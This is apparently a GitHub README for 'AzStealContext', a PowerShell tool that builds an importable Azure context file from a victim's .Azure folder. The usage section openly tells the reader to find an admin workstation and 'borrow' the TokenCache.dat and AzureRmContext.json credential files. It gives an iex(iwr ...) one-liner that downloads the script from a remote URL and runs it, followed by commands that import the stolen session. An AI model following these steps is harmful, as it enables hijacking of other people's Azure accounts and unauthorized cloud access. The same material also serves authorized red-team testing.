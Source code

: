 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user authenticates using the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multipele files including the `AzureRmContext.json` and `TokenCache.dat` files. These files contain all the information a attacker needs to create a 'context file' which is equavulant of the output of the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) command. This PowerShell function automates the process a attacker would need to take to create a 'context' file.

The AzureRmContext file can have multiple 'contexts'. This happens if the `Connect-AzAccount` is run multiple times by the same user with different credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex(iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepair a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepair and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - Overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
